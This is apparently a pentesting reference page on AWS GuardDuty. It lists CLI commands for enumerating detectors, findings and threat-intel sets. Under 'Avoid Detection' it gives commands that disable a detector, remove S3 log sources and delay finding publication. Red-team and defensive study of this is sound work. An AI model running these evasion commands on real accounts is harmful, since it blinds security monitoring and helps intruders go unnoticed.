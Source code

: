 ## Actions

### Enumeration

```bash
aws guardduty list-organization-admin-accounts
aws guardduty list-invitations
aws guardduty get-invitations-count
aws guardduty list-detectors
aws guardduty describe-organization-configuration --detector-id <id>
aws guardduty get-detector --detector-id <id>
aws guardduty list-filters --detector-id <id>
aws guardduty get-filter --detector-id <id> --filter-name
aws guardduty list-findings --detector-id <id>
aws guardduty get-findings --detector-id <id> --finding-ids <id>
aws guardduty get-findings-statistics --detector-id <id> --finding-statistic-types <types>
aws guardduty list-ip-sets --detector-id <id>
aws guardduty list-members --detector-id <id>
aws guardduty list-publishing-destinations --detector-id <id>
aws guardduty list-threat-intel-sets --detector-id <id>
aws guardduty list-ip-sets
aws guardduty get-ip-set --detector-id <id>
aws guardduty get-master-account --detector-id <id>
aws guardduty get-members --detector-id <id> --account-ids <id>
aws guardduty get-member-detectors --detector-id <id> --account-ids <id>
aws guardduty get-threat-intel-set --detector-id <id> --threat-intel-set-id <id>
```

## Avoid Detection

### `guardduty:ListDetectors`, `guardduty:UpdateDetector`

With those permissions you could disable GuardDuty to avoid triggering alerts.

```bash
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```
